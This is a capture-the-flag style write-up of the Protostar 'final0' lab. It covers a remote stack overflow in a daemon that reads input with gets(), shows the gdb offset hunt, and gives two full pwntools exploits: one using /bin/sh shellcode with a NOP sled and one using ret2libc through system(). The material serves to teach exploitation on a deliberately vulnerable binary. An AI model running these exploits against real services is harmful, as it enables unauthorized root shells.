

# Final 0

This level combines a stack overflow and network programming for a remote overflow.

**Hints**: depending on where you are returning to, you may wish to use a `toupper()` proof shellcode.

Core files will be in `/tmp`.

This level is at `/opt/protostar/bin/final0`

```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

## Notes

- We can use gdb with a binary and a coredump file: `gdb <binary> <coredeump>`

- Attach gdb to a running process: `gdb -p $(pidof <process>)` (as **root**)
  + Once inside: `(gdb) set follow-fork-mode child`

## Solutions

### Calculate the offset to control `EIP`

1. Use `pattern_create` to get a big string:

```console
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
```

2. Run `gdb` and attach it with the PID of the program. On another terminal run `python -c "print('\x00' + <pattern>)" | nc <IP> <PORT>`:

```
root@protostar:/opt/protostar/bin# gdb -q -p $(pidof final0)
Attaching to process 1678
Reading symbols from /opt/protostar/bin/final0...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64      ../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
        in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) set follow-fork-mode child
Current language:  auto
The current source language is "auto; currently asm".
(gdb) c
Continuing.
[New process 22940]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 22940]
0x41377241 in ?? ()
(gdb) x/20x $esp-8
0xbffffc58:     0x36724135      0x41377241      0x72413872      0x30734139
0xbffffc68:     0x41317341      0x73413273      0x34734133      0x41357341
0xbffffc78:     0x73413673      0x38734137      0x41397341      0x74413074
0xbffffc88:     0x32744131      0x41337441      0x74413474      0x36744135
0xbffffc98:     0x41377441      0x74413874      0xbfff0039      0xffffffff
```

> We need to use `\x00` since the program is trying to convert our buffer to uppercase.

3. Use `pattern_offset` to know the exact offset:

```console
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41377241
[*] Exact match at offset 531
```

### Method #1: shellcode

I launched `python -c "print('\x00' + 'A' * 531)" | nc 127.0.0.1 2995` to see where our payload begins:

```bash
(gdb) x/64xw $esp-550
0xbffffa3a:     0x068e0000      0xc8940000      0x6910b7e9      0x41000d69
0xbffffa4a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa5a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa6a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa7a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa8a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa9a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaaa:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaba:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaca:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffada:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaea:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffafa:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb0a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb1a:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb2a:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb)
```

Our `'A'` are located in `0xbffffa4a` so our final exploit can be:

```python 
import pwn

host = "192.168.1.251"
port = 2995

r = pwn.remote(host,port)

# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode= b"\x31\xC0\x31\xC9\x31\xD2\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xB0\x0B\xCD\x80"
offset = 531
nop_len = 100
buff = pwn.p32(0xbffffa4a)
junk = b"\x00" # bypass toUpper()
payload = junk + b"\x90" * nop_len + shellcode + b"\x90" * (offset - len(shellcode) - nop_len) + buff #b"\x80\xfa\xff\xbf"

r.sendline(payload)
r.interactive()
r.close()
```


### Method #2: ret2libc

1. Get **libc** address:

```console
root@protostar:/opt/protostar/bin# cat /proc/$(pidof final0)/maps
08048000-0804a000 r-xp 00000000 00:10 2227       /opt/protostar/bin/final0
0804a000-0804b000 rwxp 00001000 00:10 2227       /opt/protostar/bin/final0
b7e96000-b7e97000 rwxp 00000000 00:00 0 
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

2. Get `system()` offset:

```console
root@protostar:/opt/protostar/bin# readelf -s /lib/libc-2.11.2.so | grep -i system
   238: 000f29d0    66 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   606: 00038fb0   125 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1399: 00038fb0   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

3. Get `exit()` offset:

```console
root@protostar:/opt/protostar/bin# readelf -s /lib/libc-2.11.2.so | grep -i exit
   107: 0002f520    60 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   136: 0002f0c0    47 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  ...
```

4. Get `"/bin/sh"` offset:

```console
root@protostar:/opt/protostar/bin# strings -atx /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

5. Write the exploit:

```python
import pwn

host = "192.168.1.251"
port = 2995

r = pwn.remote(host,port)

offset = 531
junk = b"\x00" + b"A" * offset

libc_addr = 0xb7e97000                  # cat /proc/$(pidof final0)/maps
system_addr = libc_addr + 0x00038fb0    # readelf -s /lib/libc-2.11.2.so | grep -i system
exit_addr = libc_addr + 0x0002f0c0      # readelf -s /lib/libc-2.11.2.so | grep -i exit
bin_sh = libc_addr + 0x11f3bf           # strings -atx /lib/libc-2.11.2.so | grep "/bin/sh"

pwn.info("system address: 0x%x" % system_addr)
pwn.info("exit address: 0x%x" % exit_addr)
pwn.info("/bin/sh address: 0x%x" % bin_sh)

payload = junk + pwn.p32(system_addr) + pwn.p32(exit_addr) + pwn.p32(bin_sh)

r.sendline(payload)
r.interactive()
r.close()
```

